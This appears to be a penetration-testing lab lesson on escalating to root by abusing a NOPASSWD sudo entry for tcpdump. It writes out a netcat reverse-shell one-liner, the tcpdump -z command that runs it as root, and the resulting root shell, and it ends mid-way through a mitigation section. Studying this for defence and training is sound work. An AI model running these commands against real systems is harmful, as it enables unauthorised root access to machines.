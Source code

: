 Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in */etc/sudoers*. When landing on a system, we should always check to see if the current user has any sudo privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

> sudo -l

    Matching Defaults entries for sysadm on NIX02:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysadm may run the following commands on NIX02:
        (root) NOPASSWD: /usr/sbin/tcpdump


It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting is privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the *postrotate-command* option.

> man tcpdump

    <SNIP> 
    -z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.


By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

> sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root


Let's try this out. First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

> cat /tmp/.test

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f


Next, start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

> sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

    dropped privs to root
    tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
    Maximum file limit reached: 1
    1 packet captured
    6 packets received by filter
    compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
    0 packets dropped by kernel


We receive a root shell almost instantly.

>  nc -lnvp 443

    listening on [any] 443 ...
    connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
    bash: cannot set terminal process group (10797): Inappropriate ioctl for device
    bash: no job control in this shell

    root@NIX02:~# id && hostname               
    id && hostname
    uid=0(root) gid=0(root) groups=0(root)
    NIX02

<AppArmor> (*https://wiki.ubuntu.com/AppArmor*) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

